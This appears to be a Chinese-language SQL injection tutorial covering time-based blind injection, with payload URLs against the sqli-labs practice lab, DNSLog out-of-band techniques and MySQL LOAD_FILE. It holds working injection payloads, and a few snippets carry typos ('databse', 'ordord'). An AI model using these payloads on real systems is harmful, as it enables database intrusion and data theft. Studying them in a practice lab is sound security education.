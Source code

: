 ####  基于时间的盲注
**适用场景**：没有数据回显，条件正确与否结果一样。
**利用方式**：构造判断条件，添加**sleep**，逐个猜测

- 3.2.1 相关SQL语句

```sql
select length(database())=8;	#截取数据库名称长度
select if((1=1),1,0);			#进行判断及赋值，格式为：if(expression,val_true,val_false)
select sleep(N);				#睡眠N秒
select sleep(if((select(databse())=8),1,0));	#如果数据库名称长度为8，则sleep1秒，否则返回0
select if(length(database())=8,sleep(1),0);		#与上条语句含义相同
```
详细例子见B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=8>(第8集)
借用视频中提到的一个例子，在网址中输入如下语句：
```
http://localhost/sqli-labs-master/Less-9/?id=1' and if(ascii(substr((select database()),1,1))=115,sleep(1),0) --+
```
按下回车，如果结果正确，则会发现网站会加载一秒钟之后刷新，否则会立马刷新。如果觉得效果不明显，可以将sleep里面的参数提高一些，例如将sleep(1)改为sleep(2),但是不要把数值改的过大，防止网页加载时间过长。
又如下列语句：
```
http://localhost/sqli-labs-master/Less-9/?id=1' and if(ordord(mid((select ifnull(cast(username as char),0x20) from security.users order by id limit 0,1),1,1))=68,sleep(1),0) --+
```
这是在已经猜测出数据库名、数据表名的前提下，猜测该数据表第一个字段的第一个值的第一个字符，如果猜测正确网页会停顿一秒再刷新，否则立即刷新。



### DNSLog注入
- DNSLog

    - **DNS**,全称是Domain Name Resolution，是一个域名解析协议。域名解析就是把域名指向网站空间IP，让用户通过注册的域名可以方便地访问到网站的一种服务。而IP地址是网络上标识站点的数字地址，为了方便记忆，常用域名来代替IP地址标识站点地址。域名解析就是域名转换为IP地址的过程。域名的解析工作由DNS服务器完成。

    - 互联网中的地址是数字的IP地址，域名解析的作用主要是为了便于记忆。

    - 当要访问一个网站，一般我们只知道域名，但是不知道IP。那么我们可以先访问DNS服务，通过域名得到一个IP地址，再用IP去访问网站所在的服务器，从而可以显示网页。而在访问DNS服务的时候，会有一个日志记录下什么时候访问的、请求的域名以及域名对应的IP信息等，这个日志就是**DNSLog**。

    - **UNC**，Universal Naming Convention，通用命名规则，一种访问资源的格式。

- 自己搭建一个DNS服务器

    - 如果自己建了一个DNS服务器，那么就可以记录下一些网站的域名信息，从而也能分析出做了哪些解析工作。但是如果完全自己动手搭建一个DNS服务器是比较麻烦的，可以借助现在网上开放的一些DNSLog的平台，可以直接使用。
    - 网站dnslog.cn（国内网络无法访问），点击*Get SubDomain*生成一个子域名，可以尝试打开本地cmd，尝试去ping该域名，也可以在域名的最前面再加一个子域名，但是平台不是特别的稳定，可以会出现找不到主机的提示，多试几次可以ping通，返回dnslog.cn网站可以看到刚刚ping通的结果。
    - 网站CEYE.io（国内网络无法访问），可以解析DNS访问，同时也可以解析HTTP请求。注册后会有一个ID，ID是固定的。dns记录会在该网站上保存6个小时，会展示最近100条记录。

    * 在cmd中输入`curl xxx.该网站分配的ID`，可以在网站上的HTTP请求中看到访问信息

- 3.4.3 MySQL读写函数

    * 读文件
        ```sql
        select LOAD_FILE('文件路径');
        ```
        - 只能访问本机的文件，文件需要有读取权限并且字节数要小于max_allowed_packet
    